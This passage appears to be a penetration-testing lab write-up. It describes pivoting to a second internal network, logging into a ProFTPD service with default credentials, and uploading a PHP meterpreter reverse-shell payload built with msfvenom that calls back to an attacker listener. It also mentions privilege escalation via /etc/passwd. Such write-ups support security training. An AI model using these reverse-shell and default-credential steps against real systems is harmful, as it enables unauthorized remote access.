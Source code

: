 same as the first target we also have ifconfig shows that Target2 is conn to another network with IP `172.16.50.244` .

#### IP on other Network:

```bash
172.16.50.244
```

we won't be able to conn to either of the new IP let's comprmise one of them this machine have ftp let's try normal conn no attack:

```bash
└─$ ftp 172.16.37.234 40121
Connected to 172.16.37.234.
220 ProFTPD 1.3.0a Server (ProFTPD Default Installation. Please use 'ftpuser' to log in.) [172.16.37.234]
Name (172.16.37.234:kali): ftpuser
331 Password required for ftpuser.
Password:                         //ftpuser as well
230 User ftpuser logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 


```

interesting now we will use ftp to ransfere a msfvenome:

```bash
sudo msfvenom -p php/meterpreter_reverse_tcp  LHOST=10.13.37.10 LPORT=53 -o rev_php_tcp_53.php
```

&#x20;and run msfconsole to liten to the reverse\_tcp while runing the payload by nav to the webpage.

![](<../../.gitbook/assets/image (41).png>)

also well get a privilege escalation by checking the /etc/passwd :

![](<../../.gitbook/assets/image (42).png>)
